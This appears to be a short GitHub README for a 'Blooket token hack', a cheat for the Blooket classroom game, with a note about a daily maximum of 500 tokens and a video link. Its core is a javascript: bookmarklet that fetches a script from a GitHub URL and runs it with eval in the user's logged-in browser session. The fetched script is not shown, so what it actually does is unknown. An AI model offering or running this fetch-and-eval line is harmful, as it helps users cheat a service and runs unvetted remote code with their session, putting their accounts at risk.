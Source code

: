 # *****note:daily maximun:500*****

### `javascript:fetch("https://github.com/user134383097489237489/blooket-token-hack").then((res) => res.text().then((t) => eval(t)))`

https://user-images.githubusercontent.com/94034091/141063607-b08a11f9-5cca-4af1-b721-e2e1759b317c.mp4

